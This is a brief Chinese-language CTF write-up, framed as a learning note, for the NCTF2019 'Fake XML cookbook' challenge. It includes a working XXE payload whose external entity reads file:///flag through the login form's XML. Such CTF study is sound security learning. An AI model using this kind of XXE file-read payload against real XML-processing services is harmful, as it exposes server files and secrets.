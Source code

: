 # [NCTF2019]Fake XML cookbook（学习）
![](<./img/Pasted image 20221126110208.png>)

---
首页长这样

![](<./img/Pasted image 20221126110251.png>)

有几行js，大意是将用户名和密码通过`xml`传输

![](<./img/Pasted image 20221126110150.png>)

瞎输一通出发了报错，好像可以对发送的`xml`进行注入

![](<./img/Pasted image 20221126110430.png>)

这玩意没咋了解过，就当是学习`XXE`了叭QAQ

https://xz.aliyun.com/t/6887

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>123</password>
</user>
```

![](<./img/Pasted image 20221126115039.png>)
